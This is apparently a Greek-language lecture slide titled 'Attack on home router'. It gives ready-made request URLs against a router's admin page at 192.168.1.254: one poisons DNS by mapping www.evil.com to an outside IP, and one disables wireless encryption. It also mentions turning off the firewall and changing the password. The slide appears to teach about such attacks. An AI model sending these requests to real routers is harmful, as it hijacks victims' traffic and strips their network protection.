

# Επίθεση σε home router
DNS poisoning (216.94.23.0 www.evil.com)
http://192.168.1.254/xslt?PAGE=J38_SET&THISPAGE=J38&NEXTPAGE=J38_SET& NAME=www.evil.com&ADDR=216.94.23.0

Απενεργοποίηση του wireless authentication
http://192.168.1.254/xslt?PAGE=C05_POST&THISPAGE=C05&NEXTPAGE=C05_POST&NAME=encrypt_enabled&VALUE=0

Απενεργοποίηση του firewall, αλλαγή κωδικού πρόσβασης, κτλ...